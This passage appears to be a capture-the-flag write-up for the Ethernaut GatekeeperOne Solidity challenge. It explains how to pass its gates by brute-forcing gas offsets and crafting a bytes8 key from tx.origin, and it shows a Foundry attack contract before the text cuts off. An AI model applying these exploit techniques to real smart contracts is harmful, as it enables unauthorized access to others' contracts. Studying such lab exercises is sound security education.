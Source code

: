 ```solidity
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
`gateOne` -> I can easily pass it as I have done it earlier in **Telephone** contract . 

**How to pass `gateTwo` ?** 
Let's see 

`gasleft()` returns the remaining gas left in the current execution context. I need that to be multiple of **8191** . So I use low level **call** function where I can specify the gas , I send gas amount as multiples of **8191** so that `gasleft() % 8191 == 0` satifies. But gas usage depends on many factors like EVM version , Network Conditions and many more , so I cannot be sure that `gasleft()` in the modifier returns exactly multiple of 8191. So I felt better to use `for` loop to send 8191 multiples gas amount repeatedly and somewhere `gasleft` returns exact multiple of **8191**.

Like this I can pass this modifier .

**What about `gateTree(bytes8 _gateKey)` ?**

To pass this I need to understand , how EVM handles comparisons of same types , differ in sizes . And I have understood them and that made me to pass this modifier .

The parameter **_gateKey** should be like 0xXXXXXXX(any number other than 0) 0000 _ _ _ _ . The first 7 chars can be ny number  , eighth char can be any number other than zero , 9, 10 ,11, 12 chars should be zero , and then last 4 should be the last four chars of address of `tx.origin`.

for example : bytes8 _gateKey = **`0x0000000100006c17`** where tx.origin is `0xC6EDD10e757f88da71DE403BB5f8De15538e6C17`.

**Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Idenifier: MIT
pragma solidity ^0.8.0;
import {Script} from "forge-std/Script.sol";
import {GatekeeperOne} from "../src/GatekeeperOne.sol";
import {console} from "forge-std/console.sol";

contract Attack {
    GatekeeperOne public gatekeeper ;

    constructor (GatekeeperOne _gatekeeper) {
        gatekeeper = _gatekeeper;
    }

   function exploit(bytes8 _key) public {
    for (uint256 i = 0; i < 8191; i++) {
        (bool success,) = address(gatekeeper).call{gas: 8191 * 10 + i}(
            abi.encodeWithSignature("enter(bytes8)", _key)
        );
        if (success) {
            // Found the correct gas offset
            break;
        }
    }
}
    
}

contract GatekeeperSolution is Script {
```